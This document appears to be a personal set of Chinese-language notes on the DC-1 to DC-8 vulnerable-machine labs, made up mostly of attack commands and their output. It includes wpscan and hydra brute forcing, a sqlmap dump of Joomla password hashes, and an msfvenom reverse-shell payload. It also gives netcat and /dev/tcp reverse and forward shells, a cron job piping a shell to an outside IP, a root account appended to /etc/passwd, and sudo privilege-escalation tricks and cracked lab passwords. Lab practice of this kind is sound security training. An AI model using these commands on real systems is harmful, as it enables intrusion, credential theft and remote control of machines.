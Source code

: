 # DC记录

## DC-1

* 无终端->有终端

    ```bash
    python -c 'import pty;pty.spawn("/bin/sh")'
    python -c 'import pty;pty.spawn("/bin/bash")'
    ```
    
    > 为啥，没有终端的时候不能使用mysql等需要二次交互的命令？
    >
    > `mysql -u dbuser -p R0ck3t 2>&1`
    >
    > 还是有问题。
    >
    > 比如正确输入mysql命令，不回显，只会在输入错误的时候回显所有命令并退出mysql。
    >
    > 

## DC-2

* 重定向？

* cewl

    ```bash
    cewl dc-2 -w pds.txt
    ```

* wpscan

    ```bash
    wpscan --url dc-2 -e u
    wpscan --url dc-2 -U us.txt -P pds.txt
    ```

* `ssh -p 7744 tom@dc-2`     parturient
* jerry adipiscing

* rbash 绕过

    > https://www.freebuf.com/articles/system/188989.html

    1. vi绕过

        ```bash
        vi test
        :set shell=/bin/bash
        :shell
        这时候已经可以使用命令了，找不到是因为没有绝对路径
        可以添加，也可以直接用路径
        export PATH=$PATH:/usr/sbin:/usr/bin:/bin:/sbin
        ```

    2. `BASH_CMDS[a]=/bin/sh;a` 把/bin/bash给a变量，这样输入a就可以使用sh，而a不被rbash检测

* `sudo -l ` list user's privileges or check a specific command; use twice for longer format

* git 提权，想要提权必须要sudo，如果只是绕过rbash限制可以不用

    ```bash
    sudo git help config
    sudo git -p help
    ```


## DC-3

* ```txt
    sqlmap -u "http://192.168.1.110/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" -C "id,username,password,name" --dump -p list[fullordering]
    
    +-----+----------+--------------------------------------------------------------+-------+
    | id  | username | password                                                     | name  |
    +-----+----------+--------------------------------------------------------------+-------+
    | 629 | admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu | admin |
    | 630 | hk       | $2y$10$Sh2iQHF9xk8k03R2WwYpa.yBiCMci1/44ZUf9wAF1/shiSH9zY6tO | hk    |
    +-----+----------+--------------------------------------------------------------+-------+
    ```
    
* `john ./db.txt --show`
    `admin:snoopy`

* ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f raw > text.php
    ?
    ```

* 正向shell

    * ```bash
        nc -lvp VICTIM_PORT -e /bin/sh   	# 靶机
        nc VICTIM_IP VICTIM_PORT   	# 攻击机
        ```

    * ```bash
        # 靶机
        mkfifo /tmp/fifo; /bin/sh 0< /tmp/fifo 2>&1 | nc -lvp 4444 1> /tmp/fifo; rm /tmp/fifo
        # 攻击机
        nc VICTIM_IP VICTIM_PORT
        ```


* 反向shell

    * ```bash
        bash -i <& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1   	# 靶机
        nc -lvp ATTACKER_PORT  									# 攻击机
        ```

    * ```bash
        # 靶机
        mknod /tmp/tmpPipe p
        mkfifo /tmp/tmpPipe (二选一)
        /bin/sh 0< /tmp/tmpPipe | nc ATTACKER_IP ATTACKER_PORT 1> /tmp/tmpPipe
        # 攻击机
        nc -lvp ATTACKER_PORT
        ```

## DC-4

* `hydra`

    * hydra -l root -P pass.txt -vV -o out.txt 192.168.1.118 ssh

        [22][ssh] host: 192.168.1.118   login: jim   password: jibril04

* charles    ^xHhA&hvim0y
* `sudo teehee -a /etc/passwd` 追加内容
    * `addAdmin::0:0:::/bin/bash`

## DC-5

* 文件包含

* nginx 记录里写入一句话木马

    ```
    access_log /var/log/nginx/access.log;
    error_log /var/log/nginx/error.log;
    ```

* screen 提权

## DC-6

* mark / helpdesk01
* graham - GSo7isUM1D4
* 普通sh文件提权
    * `echo /bin/bash >> shell.sh`
    * `sudo -u jens shell.sh`
* nmap提权
    * `sudo -u root nmap --script=shell.nse`

## DC-7

* PickYourOwnPassword
* `drush user-password admin --password="admin"`
* `https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz`

* `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 47.100.64.189 4444 >/tmp/f" >> backups.sh `
    * 定时任务

## DC-8

* SQL注入

    ```
    +-----+---------+---------------------------------------------------------+
    | uid | name    | pass                                                    |
    +-----+---------+---------------------------------------------------------+
    | 0   | <blank> | <blank>                                                 |
    | 1   | admin   | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z |
    | 2   | john    | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF |
    +-----+---------+---------------------------------------------------------+
    ```

* john爆破
    * `john passwds.txt`
    * john / turtle

* exim提权

    * `./46996.sh -m netcat`
